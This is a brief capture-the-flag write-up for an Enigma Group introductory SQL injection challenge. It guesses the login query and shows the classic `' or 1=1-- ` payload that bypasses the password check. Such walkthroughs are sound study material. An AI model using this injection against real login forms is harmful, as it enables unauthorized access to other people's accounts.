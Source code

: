 # [Basic 21](http://challenges.enigmagroup.org/basics/sql/1/)

First SQLi challenge so obviously we have a password field.

Since it is the first one and only a password, we can safely assume the query looks
like this:

`SELECT * FROM users WHERE username='admin' AND password='$PASS'`

Which means the trusty old `' or 1=1-- ` will bypass the need for a password

`SELECT * FROM users WHERE username='admin' AND passowrd='' OR 1=1-- `

We bypassed the login!

